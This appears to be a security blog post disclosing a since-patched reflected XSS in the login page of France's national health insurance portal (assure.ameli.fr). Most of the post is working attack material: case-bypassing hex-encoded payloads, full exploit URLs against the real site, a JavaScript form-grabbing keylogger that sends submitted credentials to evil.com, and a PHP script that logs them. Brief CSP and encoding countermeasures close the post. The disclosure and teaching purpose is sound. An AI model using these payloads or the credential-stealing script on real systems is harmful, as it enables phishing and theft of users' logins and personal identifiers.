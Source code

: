 ```yaml
---
layout: post
title:  "A fun case of XSS and other web concepts"
date:   2017-07-25
category: Web Security
excerpt_separator: <!--more-->
---
```

Hello folks,  
  
I would like to share with you a practical case of reflected XSS while i was looking at my national health service account. Right now the XSS has been patched (we have an efficient dedicated national service where we can report such issues).
<!--more-->  
  
**What is the issue ?**  
  
A reflected [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) in the login field at the authentication page from the website https://assure.ameli.fr where all french citizen are consulting their social security account. Some digits are required but setting some alphacharacters as login will return the string in uppercase.  
  
**Where is the issue ?**  
  
So i set:  
![image1]({{ site.url }}/public/images/xss-practical-case/image1.png)  
  
And i got:  
```html
<form name="connexionCompteForm" id="connexioncompte_2connexionCompteForm" method="post" action="https://assure.ameli.fr:443/PortailAS/appmanager/PortailAS/assure?_nfpb=true&amp;_windowLabel=connexioncompte_2&amp;connexioncompte_2_actionOverride=%2Fportlets%2Fconnexioncompte%2Fvalidationconnexioncompte&amp;_pageLabel=as_login_page" class="r_cnx_form">
...
<input id="connexioncompte_2nir_as" type="text" value="THEPOSTLOGIN" maxlength="13" size="13" placeholder="Mon numéro de sécurité sociale" title="Mon numéro de sécurité sociale" tabindex="3" name="connexioncompte_2numSecuriteSociale" />
...
</form>
```  
  
Let's try something else with the login **toto<>"'();/\:**:  
```
<input id="connexioncompte_2nir_as" type="text" value="TOTO<>"'();/\" maxlength="13" ...
```
  
No escaping, no sanitizing or HTML encoding but we will have to deal with UPPERCASE. **HTML is not case sensitive but javascript is**, so we will do some HEX encoding for the javascript part.  
  
An important thing i forgot to mention is that the payload is **truncated to 255 characters**.  
  
So this is **how to exploit an XSS when your payload is UPPERCASED (and truncated):**  
  
**First payload:**  
We can test the XSS thanks to this payload (alert):  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=" /><IMG SRC=X ONERROR=&#x61;&#x6C;&#x65;&#x72;&#x74;(&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x64;&#x6F;&#x6D;&#x61;&#x69;&#x6E;) hidden><nimp "&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
Full payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20%2F%3E%3CIMG%20SRC%3DX%20ONERROR%3D%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B(%26%23x64%3B%26%23x6F%3B%26%23x63%3B%26%23x75%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x64%3B%26%23x6F%3B%26%23x6D%3B%26%23x61%3B%26%23x69%3B%26%23x6E%3B)%20hidden%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
*But wait... you process a GET request and you were talking about a form with POST method ?*  
Yes, there but there is no server-side filtering on the specific POST method (*of course it's also exploitable with POST*).  
  
So what do we have ?:  
![image2]({{ site.url }}/public/images/xss-practical-case/image2.png)  
  
It works because i'm using Firefox. IE and Chrome embed a reflected XSS auditor which prevents this kind of inline javascript execution.  
  
Now how to deal with a truncated payload ?:  
Easy, we just have to call an external javascript file.  
  
**Final payload:**  
```
" name="connexioncompte_2numSecuriteSociale" placeholder="&#x4d;&#x6f;&#x6e;&#x20;&#x6e;&#x75;&#x6d;&#xe9;&#x72;&#x6f;&#x20;&#x64;&#x65;&#x20;&#x73;&#xe9;&#x63;&#x75;&#x72;&#x69;&#x74;&#xe9;&#x20;&#x73;&#x6f;&#x63;&#x69;&#x61;&#x6c;&#x65;" /><script src='https://evil.com/poc/poc.js'></script><nimp "
```  
  
Final payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20name%3D%22connexioncompte_2numSecuriteSociale%22%20placeholder%3D%22%26%23x4d%3B%26%23x6f%3B%26%23x6e%3B%26%23x20%3B%26%23x6e%3B%26%23x75%3B%26%23x6d%3B%26%23xe9%3B%26%23x72%3B%26%23x6f%3B%26%23x20%3B%26%23x64%3B%26%23x65%3B%26%23x20%3B%26%23x73%3B%26%23xe9%3B%26%23x63%3B%26%23x75%3B%26%23x72%3B%26%23x69%3B%26%23x74%3B%26%23xe9%3B%26%23x20%3B%26%23x73%3B%26%23x6f%3B%26%23x63%3B%26%23x69%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%22%20%2F%3E%3Cscript%20src%3D%27https%3A%2F%2Fevil.com%2Fpoc%2Fpoc.js%27%3E%3C%2Fscript%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```  
   
On our web server, we are creating the web tree *POC/POC.JS* (scheme and domain name are not case sensitive). But does a little bird sing the word CORS (Cross-Origin Resource Sharing)?  
  
Here are some examples of resources which may be embedded cross-origin ([https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)):  
 - JavaScript with ```<script src="..."></script>```. Error messages for syntax errors are only available for same-origin scripts.
 - CSS with ```<link rel="stylesheet" href="...">```. Due to the relaxed syntax rules of CSS, cross-origin CSS requires a correct Content-Type header. Restrictions vary by browser: IE, Firefox, Chrome, Safari (scroll down to CVE-2010-0051) and Opera.
 - Images with ```<img>```. Supported image formats include PNG, JPEG, GIF, BMP, SVG, ...
 - Media files with ```<video>``` and ```<audio>```.
 - Plug-ins with ```<object>```, ```<embed>``` and ```<applet>```.
 - Fonts with ```@font-face```. Some browsers allow cross-origin fonts, others require same-origin fonts.
 - Anything with ```<frame>``` and ```<iframe>```. A site can use the X-Frame-Options header to prevent this form of cross-origin interaction.
  
But in fact whatever... we are owning the web server we would be able to add if it was necessary the response header ```access-control-allow-origin: *``` for any resources.  
  
But what kind of cool javascript payload can we inject? (knowing that the ```JSESSIONID``` cookie has the flag ```HttpOnly```, so not accessible via javascript).  
  
![image3]({{ site.url }}/public/images/xss-practical-case/image3.png)  
  
**We will add a callback function that will be triggered once the forms on the webpage will be submitted** (allowing us to capture the credentials).  
Check [https://github.com/phackt/pentest/tree/master/exploits/js_keylogger](https://github.com/phackt/pentest/tree/master/exploits/js_keylogger) for source code.  
  
**POC.JS**  
```javascript
window.onload = function () {
	for(var i=0; i<document.forms.length; i++){
	  	document.forms[i].addEventListener("submit", function() {
	  		for(e=0; e<this.elements.length; e++){
	  			keys = "[name:" + this.elements[e].name + ",value:" + this.elements[e].value + ",type:" + this.elements[e].type + "]";
	  			new Image().src = 'https://evil.com/key.php?c='+keys;
	  		}
    	}, false);
	}
}
```
  
**key.php**  
```php
<?php
if(!empty($_GET['c'])) {
    $logfile = fopen('data.txt', 'a+');
    fwrite($logfile, $_GET['c']."\n");
    fclose($logfile);
}
?>
```  
  
So suppose you are receiving a link which exploits the XSS vulnerability and you innocently enter your credentials to check your account, the attacker will receive:  
```
[name:CONNEXIONCOMPTE_2NUMSECURITESOCIALE,value:1234567890123,type:text]
[name:connexioncompte_2codeConfidentiel,value:89769874,type:password]
[name:connexioncompte_2actionEvt,value:connecter,type:hidden]
[name:submit,value:Valider,type:submit]
```  
  
This kind of vulnerability could be part of a **phishing campaign** which encourages people to log in by clicking on the malicious link.  
  
**COUNTERMEASURES**:  
 - HTML Encoding (HTML entities and numeric character references) - [https://en.wikipedia.org/wiki/Character_encodings_in_HTML](https://en.wikipedia.org/wiki/Character_encodings_in_HTML)
 - Sanitizing
 - Escaping
 - White-listing
 - Block inline javascript via CSP (*X-XSS-Protection is deprecated and will be replaced by the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) directive Reflected-XSS*)
  
Dealing with external resources, blocking all cross domains requests via a Content Security Policy rule may be not relevant because a lot of these resources are legitimate on a website.  
However we can do some subtle CSP rules in order to allow only what is needed.  

But if a web site administrator wants to allow only resources from the *same origin* (this excludes subdomains):  
```
Content-Security-Policy: default-src 'self'
```
  
Web applications are really interesting because of all the concepts you have to deal with.  
  
Hope you enjoyed.  
  
Phackt.
